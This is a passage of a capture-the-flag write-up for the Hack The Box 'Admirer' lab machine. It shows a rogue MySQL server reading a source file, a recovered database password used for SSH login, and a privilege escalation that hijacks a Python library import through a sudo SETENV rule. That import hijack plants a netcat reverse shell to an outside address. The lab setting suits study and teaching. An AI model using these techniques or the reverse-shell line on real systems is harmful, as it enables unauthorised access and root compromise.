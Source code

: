 I can connect to any server using the interface so by using a [rogue MySQL server](https://github.com/allyshka/Rogue-MySql-Server) running on my VM I was able to read files from the target system. I read `/var/www/html/index.php` and obtained the real DB password running on the target system.

```
$servername = "localhost";\n
$username = "waldo";\n
$password = "&<h5b~yK3F#{PaPB&dA}{H>";\n
$dbname = "admirerdb";\n\n
// Create connection\n
$conn = new mysqli($servername, $username, $password, $dbname);\n
```

I can log in with SSH with the **waldo** username:

```
root@kali:~/htb/admirer# ssh waldo@10.10.10.187
waldo@10.10.10.187's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Sat May  2 23:04:06 2020 from 10.10.14.26
waldo@admirer:~$ cat user.txt
f6fc72bf41c41ed65d4ca1e95ef76dbe
```

## Privesc

Waldo can run `/opt/scripts/admin_tasks.sh` as any user. The sudo command is configured to accept environment variables (SETENV).

```
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

In `/var/tmp/snow` I'll copy shutil.py, add a system call to execute netcat then hijack the library import by setting the PYTHONVARIABLE to this directory.

```python
def make_archive(base_name, format, root_dir=None, base_dir=None, verbose=0,
                 dry_run=0, owner=None, group=None, logger=None):
[...]

    os.system("/bin/nc -e /bin/bash 10.10.14.22 443")
    save_cwd = os.getcwd()
```
